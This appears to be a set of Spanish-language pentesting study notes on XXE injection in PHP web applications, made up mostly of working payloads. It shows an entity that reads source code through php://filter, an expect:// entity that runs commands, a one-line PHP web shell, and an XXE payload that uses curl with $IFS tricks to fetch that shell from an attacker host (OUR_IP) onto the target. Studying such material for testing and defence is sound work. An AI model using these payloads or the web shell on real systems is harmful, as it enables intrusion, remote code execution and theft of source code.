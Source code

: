 ## XXE lectura de codigo fuente

Al igualñ que LFI, podemos pedir un archivo en base64 para leer su contenido:

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

![[Pasted image 20230124170726.png]]

## XXE a RCE

es posible que podamos ejecutar comandos en aplicaciones web basadas en PHP a través del filtro `PHP://expect`, aunque esto requiere que el módulo `expect` PHP esté instalado y habilitado.

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://id">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

El método más eficiente para convertir XXE en RCE es obtener un shell web de nuestro servidor y escribirlo en la aplicación web, y luego podemos interactuar con él para ejecutar comandos. Para hacerlo, podemos comenzar escribiendo un shell web PHP básico e iniciando un servidor web python, de la siguiente manera:

>[!note]
>tenemos que tener alcance con el equipo. (visibilidad por ping)

```bash
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```

Ahora, podemos usar el siguiente código XML para ejecutar un comando `curl` que descargue nuestro shell web en el servidor remoto:

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
